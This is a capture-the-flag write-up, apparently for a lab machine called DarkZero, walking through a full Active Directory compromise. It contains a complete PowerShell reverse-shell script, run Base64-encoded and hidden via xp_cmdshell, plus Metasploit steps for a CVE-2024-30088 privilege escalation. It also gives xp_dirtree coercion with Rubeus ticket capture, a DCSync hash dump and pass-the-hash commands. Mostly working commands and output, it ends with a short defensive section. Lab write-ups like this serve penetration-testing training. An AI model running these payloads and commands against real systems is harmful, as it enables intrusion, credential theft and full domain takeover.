

# DarkZero



---

## Executive Summary

Compromised a multi-domain Active Directory environment by abusing MSSQL linked server trust, coercing authentication to capture a DC01$ machine account TGT, and leveraging Kerberos abuse to perform DCSync and achieve full domain compromise.

---

## Reconnaissance

Let's perform an nmap scan to identify services running on the <MACHINE_IP>.

```bash
nmap -sC -sV -A <MACHINE_IP> -oA nmap-DarkZero

Nmap scan report for 10.129.15.129
Host is up (0.29s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-03-30 11:09:59Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
1433/tcp open  ms-sql-s          Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.15.129:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
| ms-sql-info: 
|   10.129.15.129:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-03-30T11:11:03+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-03-30T11:09:03
|_Not valid after:  2056-03-30T11:09:03
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (88%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-30T11:10:26
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   307.64 ms 10.10.14.1
2   307.70 ms 10.129.15.129

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 30 07:11:20 2026 -- 1 IP address (1 host up) scanned in 171.91 seconds
```
We can confirm from the scan that this machine is based on Active Directory.

Let's add darkzero.htb and DC01.darkzero.htb to /etc/hosts.
This machine comes with pre-credential leak.

Now we have a http service on port 5985, and I found nothing interesting on it.

There is a DNS service on port 53.
Did some quick DNS enumeration using dig against the domain controller to understand the domain structure and resolve hosts properly for Kerberos-based attacks.

```bash
dig @DC01.darkzero.htb any darkzero.htb


; <<>> DiG 9.20.20-1-Debian <<>> @dc01.darkzero.htb ANY darkzero.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 39781
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;darkzero.htb.                  IN      ANY

;; ANSWER SECTION:
darkzero.htb.           600     IN      A       10.129.18.16
darkzero.htb.           600     IN      A       172.16.20.1
darkzero.htb.           3600    IN      NS      dc01.darkzero.htb.
darkzero.htb.           3600    IN      SOA     dc01.darkzero.htb. hostmaster.darkzero.htb. 568 900 600 86400 3600

;; ADDITIONAL SECTION:
dc01.darkzero.htb.      3600    IN      A       172.16.20.1
dc01.darkzero.htb.      3600    IN      A       10.129.18.16

;; Query time: 272 msec
;; SERVER: 10.129.18.16#53(dc01.darkzero.htb) (TCP)
;; WHEN: Thu Apr 02 08:43:23 EDT 2026
;; MSG SIZE  rcvd: 171
```
The DNS response revealed both external (10.x) and internal (172.x) IPs, indicating the presence of a segmented internal network, which later becomes relevant for pivoting. 
Let's keep this aside for now and do some more enumeration.

---

## Initial Access

Gained access to the MSSQL service using leaked credentials and identified a linked server configuration that enabled cross-domain pivoting.

We have a Microsoft server on port 1433.
Let's access it using mssqlclient 

```bash
impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@dc01.darkzero.htb -windows-auth

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)>
```
We are not authorized to use xp_cmdshell in darkzero.
So i enumerated further and found there is linked SQL server(DC02.darkzero.ext) with remote login allowed.

```bash
SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      
DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      
Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w             False   dc01_sql_svc   
```
At last we found a potential threat vector.

Enumerating MSSQL linked servers revealed a connection to DC02 in a different domain, with a login mapping to a service account. This allowed me to execute queries remotely as that account, effectively pivoting from a low-privileged MSSQL user to code execution on another domain controller.

Now let's move into the other server

```bash
SQL (darkzero\john.w  guest@master)> use_link "DC02.darkzero.ext"
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> enable_xp_cmdshell
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
``` 
This allowed me to pivot from a low-privileged user on DC01 to a service account on DC02, enabling command execution via xp_cmdshell.

Next, I aimed to escalate privileges to SYSTEM on DC02.

---

## Foothold

Achieved remote code execution on DC02 by leveraging xp_cmdshell and a Base64-encoded PowerShell reverse shell.

Since we can execute commands on MSSQL, let's try to have a reverse shell.
It will grant us, more comfortably to enumerate the Domain controller further.

Let's use base64 encoded payload to get a reverse shell.

```bash
# save this in shell.ps1

$client = New-Object System.Net.Sockets.TCPClient('<Machine-IP>',4443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex ". { $data } 2>&1" | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close()
```

Now let's encode our payload.

```bash
iconv -f utf-8 -t utf-16le shell.ps1 | base64 -w 0
```
### iconv breakdown

It converts your PowerShell script into a format that can be executed using '-e' flag.

```bash
-f utf-8      → input format
-t utf-16le   → output format (required by PowerShell)
-w 0 → removes line breaks (important)
```

Now we will get a base64 string as output.

Now start a listener on port 4443

```bash 
nc -lnvp 4443
```

Now in our MSSQL server, let's execute our payload

```bash
EXEC xp_cmdshell 'powershell -nop -w hidden -e BASE64_HERE'
```
I leveraged xp_cmdshell to execute a Base64-encoded PowerShell payload using the -EncodedCommand option. Running PowerShell with no profile and a hidden window helped avoid execution issues and reduced visibility, resulting in stable remote code execution. 

Now we got a callback on listener.

```bash
listening on [any] 4443 ...
connect to [10.10.14.241] from (UNKNOWN) [10.129.18.16] 53873

PS C:\Windows\system32> 
```
I executed winpeas.exe for further enumeration.
It revealed the Windows version and I found it is vulnerable to CVE-2024-30088 ->  Kernel-Level TOCTOU Vulnerability Abused by APT34 for Privilege Escalation in Windows

We have modules for this in metasploit. So let's use them.

---

## Privilege Escalation (DC02)

Escalated privileges to NT AUTHORITY\SYSTEM by exploiting a kernel-level TOCTOU vulnerability.

Let's upgrade from reverse shell to meterpreter session.

Use msfvenom to create an executable file for reverse shell and upload it to the windows shell.
start a listener on msfconsole and execute the payload on windows shell.
Here are detailed steps

```bash
# start msfconsole
msfconsole

# Use multi handler
use exploit/multi/handler

# set the reverse shell payload
set payload windows/x64/meterpreter/reverse_tcp

# set local ip
set LHOST <your_ip>

# set local port(defualt-4444)
set LPORT <port>

# now exploit 
run

# after getting a callback, move it to backgrounf
background
```
Now we will have a meterpreter session. Move it to background and move on to the next step.

Let's use the Metasploit module 

```bash 
use windows/local/cve_2024_30088_authz_basep

# set local ip
set LHOST <Your_IP>

# check the session ID
sessions

# set session for exploit
sessions <ID>

# EXPLOIT
exploit
```

This is a TOCTOU race condition, so it may fail couple of times. If it does fail, just start the session again and use this module to exploit it, we will get a meterpreter shell as '''NT AUTHORITY\SYSTEM'

```bash
msf exploit(windows/local/cve_2024_30088_authz_basep) > set session 2
session => 2
msf exploit(windows/local/cve_2024_30088_authz_basep) > exploit
[*] Started reverse TCP handler on 10.10.14.241:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 2113
[*] Reflectively injecting the DLL into 632...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 956
[+] Successfully retrieved winlogon pid: 608
[*] Sending stage (232006 bytes) to 10.129.18.16
[*] Meterpreter session 13 opened (10.10.14.241:4444 -> 10.129.18.16:53815) at 2026-04-02 06:37:46 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
we obtained the use flag.

```bash
eterpreter > cat user.txt
4985b..........948c59fe6
```

---

## Lateral Movement and Trust Abuse (Root Flag)

Abused the trust relationship between DC01 and DC02 to coerce authentication and capture a high-privilege Kerberos ticket.

We have a potential threat vector for privilege escalaton.
The trust between DCO2 and DC01.
Let's exploit the trust.

We have access to MSSQL server and we have root access on DC02 domain.
We have a low privileged user on DC01.

The above information may not look like much but it is.
If we can force the DC01 to authenticate to DC02 we can get the ticket it  used for authentication by using Rubeus.exe in monitor mode.

First upload Rubeus.exe to meterpreter shell.
I'll paste the link for it here -> https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

```bash
Rubues.exe monitor /inspect:10 /nowrap
```
This will monitor for any authentications for every 10 seconds.

Now let's force the DC01 to authenticate to DC02 over smb. We are making it to authenticate it to a service which does not exist on DC02.
Let's now move to MSSQL server. We have to do this in darkzero.htb not on the linked server, since we want a ticket on DC01 not DC02.

```bash
xp_dirtree \\DC02.darkzero.ext\coerce_share
```
The xp_dirtree stored procedure was abused to force DC01 to access a remote SMB share on DC02. This triggered outbound authentication from DC01, which was captured using Rubeus in monitor mode, resulting in a valid Kerberos TGT for the DC01$ machine account.

```bash
User                  :  DC01$@DARKZERO.HTB
  StartTime             :  4/2/2026 11:22:39 AM
  EndTime               :  4/2/2026 9:22:38 PM
  RenewTill             :  4/9/2026 11:22:38 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFjDCCBYi.................Gd0GwxEQVJLWkVSTy5IVEI=
```
---

## Kerberos Abuse

Leveraged the captured TGT to perform Kerberos-based authentication without requiring plaintext credentials.

Now save the base64 ticket in a file.

``bash
echo "<TICKET> > ticket.b64
```

Now convert the file to kirbi format (standard Kerberos ticket file format).
Decode the base64 ticket and save it in to .kirbi file.

```bash
base64 -d ticket.b64 > ticket.kirbi
```
converting the ticket into .ccache, allowing direct use with Linux-based tools like Impacket for Kerberos authentication

```bash
 impacket-ticketConverter ticket.kirbi ticket.ccache          
Impacket v0.14.0.dev0+20260226.31512.9d3d86ea - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

After extracting the TGT in .kirbi format, I converted it to .ccache using impacket-ticketConverter to make it compatible with Impacket. This enabled password-less Kerberos authentication for further actions such as remote execution and credential dumping.

### Note

Ticket conversion changes format, not privilege — the power of the TGT remains the same.

```bash
 export KRB5CCNAME=ticket.ccache
```

Now we have a valid TGT, I performed a DCSync attack using secretsdump, which allowed me to retrieve NTLM password hashes from the domain controller. These hashes were then used to authenticate to other systems, demonstrating full domain compromise.

Let's get the NTLM hashes

```bash
impacket-secretsdump -k -no-pass -just-dc -target-ip 10.129.18.16 'darkzero.htb/DC01$@DC01.darkzero.htb'

Impacket v0.14.0.dev0+20260226.31512.9d3d86ea - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aa..............3504ee:5917...........0726:::
```
Now I have NTLM hash for Administrator.

---

## Post-Exploitation

### Pass-The-Hash

```bash
evil-winrm -i 10.129.18.16 -u administrator -H '5917..............a726'

Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          4/2/2026   9:33 AM             34 root.txt
-ar---          4/2/2026   9:33 AM             34 user.txt
```

## Attack Chain Summary

```
DarkZero Attack Chain
│
├─ Reconnaissance
│   ├─ Nmap → AD + MSSQL (1433)
│   ├─ DNS (dig) → dual IPs (10.x + 172.x)
│   └─ Identify domain: darkzero.htb
│
├─ Initial Access (MSSQL)
│   ├─ Login: john.w (low-priv)
│   ├─ xp_cmdshell disabled
│   └─ enum_links → linked server (DC02)
│
├─ Trust Abuse / Pivot
│   ├─ Linked server → DC02.darkzero.ext
│   ├─ Login mapping → dc01_sql_svc
│   └─ Remote query execution → pivot to DC02
│
├─ Code Execution (DC02)
│   ├─ Enable xp_cmdshell
│   ├─ Prepare PowerShell reverse shell
│   ├─ Encode (UTF-16LE + Base64)
│   └─ Execute → reverse shell obtained
│
├─ Foothold Stabilization
│   ├─ Upgrade → Meterpreter session
│   └─ Enumeration → winPEAS
│
├─ Privilege Escalation (DC02)
│   ├─ Identify CVE-2024-30088
│   └─ Exploit → NT AUTHORITY\SYSTEM
│
├─ Lateral Movement (Trust Abuse)
│   ├─ Upload Rubeus.exe
│   ├─ Run monitor mode
│   ├─ Coerce auth (xp_dirtree)
│   └─ Capture DC01$ TGT
│
├─ Kerberos Abuse
│   ├─ Base64 → .kirbi
│   ├─ .kirbi → .ccache
│   ├─ Export KRB5CCNAME
│   └─ Kerberos auth (no password)
│
├─ Domain Compromise
│   ├─ DCSync (secretsdump)
│   ├─ Dump NTLM hashes
│   └─ Administrator hash obtained
│
└─ Post-Exploitation
    └─ Pass-the-Hash (evil-winrm) → Administrator shell 
```

## Key Vulnerabilities

```
+---------------------------+----------------------------------------------+---------------------------------------------+
| Stage                     | Vulnerability / Weakness                     | Impact                                      |
+---------------------------+----------------------------------------------+---------------------------------------------+
| Initial Access            | Credential Exposure (john.w)                 | MSSQL access                                |
| MSSQL Configuration       | Linked Server Trust Misconfiguration         | Cross-server pivot                          |
| MSSQL Permissions         | xp_cmdshell enabled on linked server         | Remote Code Execution                       |
| System Security           | CVE-2024-30088 (TOCTOU PrivEsc)              | SYSTEM privileges on DC02                   |
| AD Misconfiguration       | Trust between DC01 and DC02                  | Cross-domain abuse                          |
| Authentication Mechanism  | Unrestricted Kerberos authentication         | Ticket capture via coercion                 |
| AD Design                 | Machine account privileges (DC01$)           | High-privilege TGT                          |
| AD Replication            | DCSync abuse (no proper restrictions)        | NTLM hash extraction                        |
| Authentication Protocol   | NTLM allowed                                 | Pass-the-Hash attack                        |
+---------------------------+----------------------------------------------+---------------------------------------------+
```
---

## Defensive Insights

- Disable or restrict xp_cmdshell usage
- Audit and limit MSSQL linked server configurations
- Monitor for forced authentication attempts (e.g., unusual SMB requests)
- Restrict DCSync permissions to only required accounts
- Apply patches for privilege escalation vulnerabilities (e.g., CVE-2024-30088)
- Monitor Kerberos ticket anomalies (machine account abuse)
